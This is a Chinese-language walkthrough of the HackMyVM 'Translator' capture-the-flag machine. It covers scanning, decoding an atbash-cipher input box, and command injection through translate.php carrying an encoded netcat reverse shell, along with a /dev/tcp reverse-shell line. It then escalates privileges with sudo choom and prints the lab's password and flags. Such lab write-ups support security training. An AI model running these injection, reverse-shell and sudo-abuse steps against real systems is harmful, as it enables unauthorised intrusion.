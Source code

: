 [HackMyVm - Translator - YouTube](https://www.youtube.com/watch?v=xs6Pw9y_Ayg)
# 主机发现
```C
netdiscover -i eth0 -r 192.168.44.193/24
```
# 服务探测
```C
nmap -sV -A -T4 -p- 192.168.44.134
```
得到只开放了80和22端口

# 目录爆破

```css
gobuster dir -u http://192.168.44.134/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,txt,php
```

只是个输入框，尝试输入，发现我们输入的字符被替换了然后显示
尝试发现是26个字母倒叙替换
也可以通过https://www.dcode.fr/cipher-identifier 发现是使用atbash编码
但我直接写了个脚本
```Python
import sys

def reverse_alphabet_substitution(text):
    # 定义倒序字母映射字典
    reversed_alphabet = {
        'A': 'Z', 'B': 'Y', 'C': 'X', 'D': 'W', 'E': 'V',
        'F': 'U', 'G': 'T', 'H': 'S', 'I': 'R', 'J': 'Q',
        'K': 'P', 'L': 'O', 'M': 'N', 'N': 'M', 'O': 'L',
        'P': 'K', 'Q': 'J', 'R': 'I', 'S': 'H', 'T': 'G',
        'U': 'F', 'V': 'E', 'W': 'D', 'X': 'C', 'Y': 'B',
        'Z': 'A',
    }

    # 使用映射字典替换文本中的字母
    result = ''.join(reversed_alphabet.get(c.upper(), c) for c in text)

    return result.lower()

args = sys.argv

print(args[1])
# 示例文本
input_text = args[1]

# 应用替换函数
output_text = reverse_alphabet_substitution(input_text)

print(output_text)

```

# 反弹SHELL
sh -i >& /dev/tcp/ 192.168.44.128 / 9001 0>&1不行
```C
┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ python translater.py nc+-e+/bin/bash+192.168.44.128+9001
nc+-e+/bin/bash+192.168.44.128+9001
mx -v /yrm/yzhs 192.168.44.128 9001
```
访问`http://192.168.44.134/translate.php?hmv=rw;mx -v /yrm/yzhs 192.168.44.128 9001

刚监听的shell不太好用，使用下面这条命令打开一个pty伪终端
```C
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm //设置终端类型为常见的xterm环境变量
stty -a//以容易阅读的方式打印当前的所有配置
stty raw -echo;fg//- 通过 `stty raw -echo` 将当前终端设置为原始模式并关闭回显。接着，使用分号 `;` 立即执行下一条命令。最后，`fg` 命令将最近放入后台的作业切换到前台运行，此时由于终端已处于原始模式且回显关闭，该作业可以直接接收用户的无干扰、未经处理的键盘输入。
reset //重新初始化终端
```
# 提权
尝试读取第一个flag读取不到cat /home/ocean/user.txt

```C
cat hvxivg

┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ python translater.py Mb+kzhhdliw+rh+zbfie3w4          
Mb+kzhhdliw+rh+zbfie3w4
ny password is ayurv3d4
```
利用sudo 提权到india 账号
https://gtfobins.github.io/gtfobins/choom/
```C
su ocean //输入密码：ayurv3d4
sudo -l
//发现有个(india) NOPASSWD: /usr/bin/choom   这可以让我免密提权至india用户权限
```

也可以直接ssh：`ssh ocean@192.168.44.134

**choom**      命令是 util-linux 软件包的一部分
不会用这个命令就去找man：[choom(1) - Linux manual page](https://man7.org/linux/man-pages/man1/choom.1.html)
[Ubuntu Manpage: choom - display and adjust OOM-killer score.](https://manpages.ubuntu.com/manpages/focal/en/man1/choom.1.html)

```C
sudo -u india /usr/bin/choom -n 0 /bin/sh
script /dev/null -c bash
```

```C
sudo -l //(root) NOPASSWD: /usr/local/bin/trans
sudo -u root /usr/local/bin/trans//尝试以root权限运行该翻译软件
man /usr/local/bin/trans   //不会就问man,查看帮助命令
```


```C
root@translator:~# cat root.txt
h87M5364V2343ubvgfy
root@translator:~# cat /home/ocean/user.txt
a6765hftgnhvugy473f

```